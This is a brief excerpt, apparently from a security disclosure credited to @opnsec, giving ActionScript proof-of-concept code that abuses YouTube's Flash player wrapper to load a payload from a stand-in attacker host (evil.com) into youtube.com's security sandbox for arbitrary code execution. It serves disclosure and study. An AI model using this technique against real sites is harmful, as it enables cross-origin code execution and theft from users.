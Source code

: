<pre>
var loader = new Loader();
// Load the Youtube Wrapper (1)
loader.load(new URLRequest("https://www.youtube.com/v/[VIDEO_ID]"));
var youtubeWrapper = loader.content;
// Access the Youtube Wrapper appLoader object (3)
var appLoader = youtubeWrapper.getChildAt(0);
// Load evil2.swf in youtubeWrapper security sandbox. (4)
appLoader.load(new URLRequest("http://evil.com/evil2.swf"), new LoaderContext(false, ApplicationDomain.currentDomain, SecurityDomain.currentDomain));
// evil2.swf can execute arbitrary code in youtube.com security sandbox (5)
</pre>

<B>Thanks to @opnsec</B>

